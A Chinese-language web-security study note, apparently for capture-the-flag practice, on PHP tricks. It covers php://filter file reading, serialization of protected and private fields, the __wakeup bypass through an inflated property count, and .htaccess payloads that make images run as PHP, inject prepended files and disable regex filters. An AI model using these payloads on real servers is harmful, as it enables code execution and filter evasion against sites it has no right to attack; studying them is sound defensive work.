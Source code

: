 # PHP积累

## php 三种写法

```
<? echo ("这是一个 PHP 语言的嵌入范例\n"); ?>
<?php echo("这是第二个 PHP 语言的嵌入范例\n"); ?>
<script language="php"> 
echo ("这是类似 JavaScript 及 VBScript 语法
的 PHP 语言嵌入范例");
</script>
<% echo ("这是类似 ASP 嵌入语法的 PHP 范例"); %>
```

php://filter简单理解：

php://filter 是php中独有的一个协议，可以作为一个中间流来处理其他流，可以进行任意文件的读取；根据名字，filter，可以很容易想到这个协议可以用来过滤一些东西；

使用不同的参数可以达到不同的目的和效果：

| 名称                      | 描述                                                         | 备注 |
| ------------------------- | ------------------------------------------------------------ | ---- |
| resource=<要过滤的数据流> | 指定了你要筛选过滤的数据流                                   | 必选 |
| read=<读链的筛选列表>     | 可以设定一个或多个过滤器名称，以管道符"\|"分割               | 可选 |
| write=<写链的筛选列表>    | 可以设定一个或多个过滤器名称，以管道符"\|“分割               | 可选 |
| <；两个链的筛选列表>      | 任何没有以 read= 或 write= 作前缀 的筛选器列表会视情况应用于读或写链。 |      |

## 反序列化魔术方法

```php
__construct()//当一个对象创建时被调用
__destruct() //当一个对象销毁时被调用
__toString() //当一个对象被当作一个字符串使用
__sleep()//在对象在被序列化之前运行
__wakeup()//将在反序列化之后立即被调用(通过序列化对象元素个数不符来绕过)
__get()//获得一个类的成员变量时调用
__set()//设置一个类的成员变量时调用
__invoke()//调用函数的方式调用一个对象时的回应方法
__call()//当调用一个对象中的不能用的方法的时候就会执行这个函数
```

## public、protected与private在序列化时的区别

protected 声明的字段为保护字段，在所声明的类和该类的子类中可见，但在该类的对象实例中不可见。因此保护字段的字段名在序列化时，字段名前面会加上\0*\0的前缀。这里的 \0 表示 ASCII 码为 0 的字符(不可见字符)，而不是 \0 组合。这也许解释了，为什么如果直接在网址上，传递\0*\0username会报错，因为实际上并不是\0，只是用它来代替ASCII值为0的字符。必须用python传值才可以。

```php
<?php
class Name{
    protected $username = 'nonono';
    protected $password = 'yesyes';
    public function __construct($username,$password){
    	$this->username = $username;
        $this->password = $password;
    }
    public function __wakeup(){
    	$this->username = "guests";
    }
    public function fun(){
    	echo $this->username;echo "<br>";echo $this->password;
    }
}
$a = serialize(new Name("admin",100));
echo $a;
?>
```

```
O:4:"Name":2:{s:11:"\0*\0username";s:5:"admin";s:11:"\0*\0password";i:100;}
```

private 声明的字段为私有字段，只在所声明的类中可见，在该类的子类和该类的对象实例中均不可见。因此私有字段的字段名在序列化时，类名和字段名前面都会加上\0的前缀。字符串长度也包括所加前缀的长度。其中 \0 字符也是计算长度的。

可以不看：
这里 表示的是声明该私有字段的类的类名，而不是被序列化的对象的类名。因为声明该私有字段的类不一定是被序列化的对象的类，而有可能是它的祖先类。字段名被作为字符串序列化时，字符串值中包括根据其可见性所加的前缀。

```php
<?php
class Name{
    private $username = 'nonono';
    private $password = 'yesyes';
    public function __construct($username,$password){
    	$this->username = $username;
        $this->password = $password;
    }
    public function __wakeup(){
    	$this->username = "guests";
    }
    public function fun(){
    	echo $this->username;echo "<br>";echo $this->password;
    }
}
$a = serialize(new Name("admin",100));
echo $a;
?>
O:4:"Name":2:{s:14:"\0Name\0username";s:5:"admin";s:14:"\0Name\0password";i:100;}
```

## 3.``__wakeup()``方法绕过

作用：
与``__sleep()``函数相反，``__sleep()``函数，是在序序列化时被自动调用。``__wakeup()``函数，在反序列化时，被自动调用。
绕过：
当反序列化字符串，表示属性个数的值大于真实属性个数时，会跳过``__wakeup`` 函数的执行。
上面的代码，序列化后的结果为

要求：PHP5 < 5.6.25 PHP7 < 7.0.10

```
O:4:"Name":2:{s:14:"\0Name\0username";s:5:"admin";s:14:"\0Name\0password";i:100;}
```

其中name后面的2，代表类中有2个属性，但如果我们把2改成3，就会绕过__wakeup()函数。

```
O:4:"Name":3:{s:14:"\0Name\0username";s:5:"admin";s:14:"\0Name\0password";i:100;}
```

## ``.htaccess``文件利用

- 正确解析绕过
  
  ``.htaccess``中出现的无法正常解析的条目时无法生效
  - ``\``换行绕过脏字符或绕WAF
  - 利用XMP图片解析头(``#``刚好是注释符)
    
    ```
    #define width 1
    #define height 1
    ```
  - 利用wbmp文件解析头
    
    ```
    \x00\x00\x8a\x39\x8a\x39
    ```
- 增加使用php解析的文件后缀(.jpg)
  
    ```
    AddType application/x-httpd-php .jpg
    ```
- 增加使用php解析的文件
  
    ```
    <FilesMatch "<filename>">
    SetHandler application/x-httpd-php
    </FilesMatch>
    ```
- 

- **利用php_value注入php配置**

    - 在所有php前后注入恶意php文件
      
        ```
        php_value auto_prepend_file "<FileDir>"
        php_value auto_append_file "<FileDir>"
        ```

    - 利用prce参数绕过preg_match
      
        ```
        php_value pcre.backtrack_limit 0
        php_value pcre.jit 0 
        ```

        任意匹配均返回``FALSE``
        
        > https://www.php.net/manual/zh/pcre.configuration.php
    
    - 利用UTF-7编码绕过日志html编码
      
       ```
        php_value zend.multibyte 1
        php_value zend.script_encoding "UTF-7"
       ```
    - 利用inclue_path包含恶意文件

      ```
        php_value include_path "/tmp"
      ```
    - 利用``error log``写本地文件 (html编码)

        ```
        php_value error_log /tmp/fl3g.php
        php_value error_reporting 32767
        ```